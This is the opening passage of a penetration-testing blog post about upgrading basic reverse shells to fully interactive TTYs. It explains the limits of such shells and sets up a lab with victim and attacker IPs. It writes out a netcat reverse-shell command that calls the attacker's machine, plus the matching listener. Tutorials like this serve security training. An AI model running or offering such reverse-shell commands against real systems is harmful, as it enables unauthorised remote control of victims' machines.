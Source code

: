 Every pentester knows that amazing feeling when they catch a reverse shell with netcat and see that oh-so-satisfying verbose netcat message followed by output from `id`.

And if other pentesters are like me, they also know that dreadful feeling when their shell is lost because they run a bad command that hangs and accidentally hit “Ctrl-C” thinking it will stop it but it instead kills the entire connection.

[![Oops!](https://blog.ropnop.com/images/2017/07/oops_ctrl_c.png)](https://blog.ropnop.com/images/2017/07/oops_ctrl_c.png)

Besides not correctly handling SIGINT, these"dumb” shells have other shortcomings as well:

- Some commands, like `su` and `ssh` require a proper terminal to run
- STDERR usually isn’t displayed
- Can’t properly use text editors like `vim`
- No tab-complete
- No up arrow history
- No job control
- Etc…

Long story short, while these shells are great to catch, I’d much rather operate in a fully interactive TTY.

I’ve come across some good resources that include very helpful tips and techniques for “upgrading” these shells, and wanted to compile and share in a post. Along with Pentest Monkey, I also learned the techniques from Phineas Fisher in his released videos and writeups of his illegal activities:

- [Pentest Monkey - Post Exploitation Without a TTY](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
- [Phineas Fisher Hacks Catalan Police Union Website](https://www.youtube.com/watch?v=oI_ZhFCS3AQ#t=25m53s)
- [Phineas Fisher - Hackingteam Writeup](http://pastebin.com/raw/0SNSvyjJ)

For reference, in all the screenshots and commands to follow, I am injecting commands in to a vulnerable web server (“VICTIM”) and catching shells from my Kali VM (“KALI”):

- **VICTIM IP**: 10.0.3.7
- **KALI IP**: 10.0.3.4

# Generating reverse shell commands

Everyone is pretty familiar with the traditional way of using netcat to get a reverse shell:

|                 |                                               |
| --------------- | --------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>nc -e /bin/sh 10.0.3.4 4444<br>``` |

and catching it with:

|                 |                                |
| --------------- | ------------------------------ |
| ```<br>1<br>``` | ```bash<br>nc -lvp 4444<br>``` |

The problem is not every server has netcat installed, and not every version of netcat has the `-e` option.
